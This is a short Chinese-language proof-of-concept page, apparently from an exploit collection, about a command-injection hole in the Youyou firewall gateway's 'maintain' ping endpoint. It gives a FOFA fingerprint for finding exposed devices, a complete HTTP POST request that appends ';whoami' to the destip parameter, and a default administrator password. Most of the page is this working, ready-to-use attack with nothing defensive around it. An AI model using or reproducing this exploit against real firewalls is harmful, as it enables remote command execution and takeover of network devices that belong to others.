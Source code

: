 ## 佑友防火墙后台接口maintain存在命令执行漏洞

佑友防火墙网关管理系统maintain存在命令执行漏洞，攻击者可利用该漏洞将恶意的系统命令拼接到正常命令中，从而造成命令执行攻击。

## fofa

```
app="佑友-佑友防火墙"
```

## poc

```
POST /index.php?c=maintain&a=ping HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: your-cookie
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

interface=&destip=127.0.0.1;whoami
```

使用密码登录` admin/hicomadmin`

![image-20240621193046736](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211930785.png)